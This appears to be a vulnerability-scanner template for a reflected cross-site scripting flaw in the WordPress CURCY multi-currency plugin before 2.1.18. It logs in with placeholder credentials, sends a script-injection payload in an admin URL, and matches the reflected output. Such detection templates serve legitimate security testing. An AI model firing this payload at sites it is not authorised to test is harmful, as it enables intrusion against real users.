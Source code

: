 
# WordPress CURCY - Multi Currency for WooCommerce \<2.1.18 - Cross-Site Scripting

## Description

- WordPress CURCY - Multi Currency for WooCommerce 2.1.18 does not escape some generated URLs before outputting them back in attributes, leading to reflected cross-site scripting.
- severity - medium
- tags - wp-plugin,xss,wp,wordpress,authenticated,curcy,wpscan

## Requests

### Step - 1

```
POST /wp-login.php HTTP/1.1
Host: {{Hostname}}
Origin: {{RootURL}}
Content-Type: application/x-www-form-urlencoded
Cookie: wordpress_test_cookie=WP%20Cookie%20check

log={{username}}&pwd={{password}}&wp-submit=Log+In&testcookie=1

```

### Step - 2

```
GET /wp-admin/admin.php?page=wc-reports&a"><script>alert(1)</script> HTTP/1.1
Host: {{Hostname}}

```

### Matchers

**Type - word**

- part - body
- words
  1. wc-reports&a\">\<script>alert(1)\</script>">All

**Type - word**

- part - header
- words
  1. text/html

**Type - status**

- status
  1. 200

---
